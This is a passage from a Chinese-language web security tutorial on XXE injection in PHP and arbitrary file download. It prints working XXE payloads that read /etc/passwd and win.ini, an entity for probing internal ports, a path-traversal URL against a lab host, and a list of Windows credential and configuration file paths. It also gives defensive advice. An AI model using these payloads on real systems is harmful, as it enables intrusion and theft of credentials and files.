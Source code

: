 
获取 post 的 xml 文件 传递到 simplexml_load_string 再进行输出会遭成 xxe 注入

测试的payload

```xml
<?xml version = "1.0"?> <!DOCTYPE ANY [ <!ENTITY f SYSTEM "file:///etc/passwd"> ]> <x>&f;</x>
```

xxe漏洞常用利用如下

- 读取敏感文件，一些需要进行url编码

```xml
<?xml version="1.0"?><!DOCTYPE a [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>

<?xml version="1.0"?><!DOCTYPE a [<!ENTITY b SYSTEM"file:///C:/Windows/win.ini">]><c>&b;</c>
```

- 扫描内网和端口，通过扫描 ip 和端口确定内网机器的 ip 和端口开发情况，访问端口会获取 baner 信息

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE ANY [
  <!ENTITY test SYSTEM "http://127.0.0.1:80">
  ]>
  <abc>&test;</abc>
  ```

防御的话有以下几点

1. 使用开发语言提供的禁用外部实体的方法
2. 过滤用户提交的 XML 数据关键词：`<!DOCTYPE 和<!ENTITY，或者，SYSTEM 和 PUBLIC`
3. 升级 libxml 组件

### 2、任意文件读取与下载漏洞

任意文件读取与下载又名不安全的文件下载，一些网站的业务需要，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，就能够查看或下载任意的文件，可以是源文件，敏感文件等等。

通过任意文件下载，可以下载服务器的任意文件，web 业务的代码，服务器和系统的具体配置信息，也可以下载数据库的配置信息，以及对内网的信息探测等等

出现漏洞的注意原因：传入的文件名没有任何过滤，接着判断文件是否存在，存在设置文件头下载。

```txt
192.168.0.103/06/vul/unsafedownload/execdownload.php?filename=../../../../../../../etc/passwd
```

#### 2.1 windows 常见敏感文件目录

```txt
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS 配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php 配置信息
C:\Windows\my.ini //Mysql 配置信息
```

#### 2.2 linux敏感文件
